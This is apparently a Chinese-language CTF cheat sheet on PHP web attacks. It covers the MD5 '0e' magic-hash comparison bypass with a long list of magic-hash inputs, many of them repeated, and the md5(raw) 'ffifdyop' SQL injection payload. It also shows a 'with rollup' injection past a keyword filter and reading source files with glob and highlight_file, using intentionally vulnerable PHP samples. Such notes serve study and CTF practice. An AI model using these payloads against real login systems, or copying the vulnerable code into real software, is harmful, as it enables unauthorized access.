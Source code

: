 ## web



#### PHP MD5 0e绕过

```php
$passwd = $_post['password'];
$sql = "select password from users where username=admin";
$result = mysqli_query($conn, $sql);
$passwdhash = mysqli_fetch_assoc($result)['password'];
if (md5($passwd) == $passwdhash)
	echo "flag{xxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxx}";
```

- 这种比较方式不安全，如果`md5($passwd)`和`$passwdhash`都是以0e开头且后面均为数字的字符串，则PHP会将二者作为数字比较，因为0e12表示0乘10的12次方，所以二者均为0，结果为TRUE。

```
# 常见的md5以0e开头且后续均为数字的字符串
s878926199a
0e545993274517709034328855841020
s155964671a
0e342768416822451524974117254469
s214587387a
0e848240448830537924465865611904
s214587387a
0e848240448830537924465865611904
s878926199a
0e545993274517709034328855841020
s1091221200a
0e940624217856561557816327384675
s1885207154a
0e509367213418206700842008763514
s1502113478a
0e861580163291561247404381396064
s1885207154a
0e509367213418206700842008763514
s1836677006a
0e481036490867661113260034900752
s155964671a
0e342768416822451524974117254469
s1184209335a
0e072485820392773389523109082030
s1665632922a
0e731198061491163073197128363787
s1502113478a
0e861580163291561247404381396064
s1836677006a
0e481036490867661113260034900752
s1091221200a
0e940624217856561557816327384675
s155964671a
0e342768416822451524974117254469
s1502113478a
0e861580163291561247404381396064
s155964671a
0e342768416822451524974117254469
s1665632922a
0e731198061491163073197128363787
s155964671a
0e342768416822451524974117254469
s1091221200a
0e940624217856561557816327384675
s1836677006a
0e481036490867661113260034900752
s1885207154a
0e509367213418206700842008763514
s532378020a
0e220463095855511507588041205815
s878926199a
0e545993274517709034328855841020
s1091221200a
0e940624217856561557816327384675
s214587387a
0e848240448830537924465865611904
s1502113478a
0e861580163291561247404381396064
s1091221200a
0e940624217856561557816327384675
s1665632922a
0e731198061491163073197128363787
s1885207154a
0e509367213418206700842008763514
s1836677006a
0e481036490867661113260034900752
s1665632922a
0e731198061491163073197128363787
s878926199a
0e545993274517709034328855841020
240610708 
0e462097431906509019562988736854
314282422 
0e990995504821699494520356953734
571579406 
0e972379832854295224118025748221
903251147 
0e174510503823932942361353209384
1110242161 
0e435874558488625891324861198103
1320830526 
0e912095958985483346995414060832
1586264293 
0e622743671155995737639662718498
2302756269 
0e250566888497473798724426794462
2427435592 
0e067696952328669732475498472343
2653531602 
0e877487522341544758028810610885
3293867441 
0e471001201303602543921144570260
3295421201 
0e703870333002232681239618856220
3465814713 
0e258631645650999664521705537122
3524854780 
0e507419062489887827087815735195
3908336290 
0e807624498959190415881248245271
4011627063 
0e485805687034439905938362701775
4775635065 
0e998212089946640967599450361168
4790555361 
0e643442214660994430134492464512
5432453531 
0e512318699085881630861890526097
5579679820 
0e877622011730221803461740184915
5585393579 
0e664357355382305805992765337023
6376552501 
0e165886706997482187870215578015
7124129977 
0e500007361044747804682122060876
7197546197 
0e915188576072469101457315675502
7656486157 
0e451569119711843337267091732412
QLTHNDT 
0e405967825401955372549139051580
QNKCDZO 
0e830400451993494058024219903391
EEIZDOI 
0e782601363539291779881938479162
TUFEPMC 
0e839407194569345277863905212547
UTIPEZQ 
0e382098788231234954670291303879
UYXFLOI 
0e552539585246568817348686838809
IHKFRNS 
0e256160682445802696926137988570
PJNPDWY 
0e291529052894702774557631701704
ABJIHVY 
0e755264355178451322893275696586
DQWRASX 
0e742373665639232907775599582643
DYAXWCA 
0e424759758842488633464374063001
GEGHBXL 
0e248776895502908863709684713578
GGHMVOE 
0e362766013028313274586933780773
GZECLQZ 
0e537612333747236407713628225676
NWWKITQ 
0e763082070976038347657360817689
NOOPCJF 
0e818888003657176127862245791911
MAUXXQC 
0e478478466848439040434801845361
MMHUWUV 
0e701732711630150438129209816536
```

#### PHP MD5(srt,true)漏洞

- 部分字符串的MD5值转变为二进制后，PHP会自动将二进制转为一些不可见或特殊的字符串

  ```php
  $sql="select * from user where username ='admin' and password ='".md5($password,true)."'";
  ```

- 当`$password`为`129581926211651571912466741651878684928`或`ffifdyop`时，`md5($password,true)`的结果分别为`�T0D��o#��'or'8`和`'or'6�]��!r,��b`，这样就可以构造闭合从而绕过密码验证。

#### SQL注入 with rollup

- 当后端将大部分关键词过滤，并使用用户输入和查询到的内容进行比较的时候可用with rollup的方式让查询到的结果多一行内容。

  ```php
  function replaceSpecialChar($strParam){
      $regex = "/(select|from|where|join|sleep|and|\s|union|,)/i";
      return preg_replace($regex,"",$strParam);
  }
  
  if(strlen($username)!=strlen(replaceSpecialChar($username)))
      die("sql inject error");
  
  if(strlen($password)!=strlen(replaceSpecialChar($password)))
      die("sql inject error");
  
  $sql="select * from user where username = '$username'";
  $result=mysqli_query($con,$sql);
  if(mysqli_num_rows($result)>0){
      while($row=mysqli_fetch_assoc($result)){
          if($password==$row['password']){
              echo "登陆成功<br>";
              echo $flag;
          }
  
      }
  }
  ```

- 例如user表数据如下

  ```
  +----------+----------+
  | username | password |
  +----------+----------+
  | admin    | dfdsfsd  |
  +----------+----------+
  ```

- 使用`select * from user where username = 'admin' or 1=1 group by password with rollup`得到如下结果

  ```
  +----------+----------+
  | username | password |
  +----------+----------+
  | admin    | dfdsfsd  |
  | admin    | NULL     |
  +----------+----------+
  ```

- 即在查询到的结果中再添加一行password为空的数据，然而实际数据表中并没有新增数据。

#### PHP glob highlight_file函数

- php环境配置中禁用了和系统命令相关的函数，如system\shell_exec\exec等，可以使用`print_r`\\`glob`\\`highlight_file`这些函数查看文件
- glob函数
  - glob() 函数返回一个包含匹配指定模式的文件名或目录的数组。
  - `glob("*")`返回调用该函数的php文件的相同目录下的所有文件名和文件夹
- print_r
  - `print_r`函数可以打印出数组和对象，而echo\print则只能打印字符串
  - `print_r(glob("../*"))`返回上级目录中的所有文件和文件夹

- highlight_file
  - `highlight_file`函数将指定的文件高亮显示输出，使用该函数不会将php文件执行，可以看到源代码
  - `highlight_file(conn.php)`高亮输出数据库连接文件内容



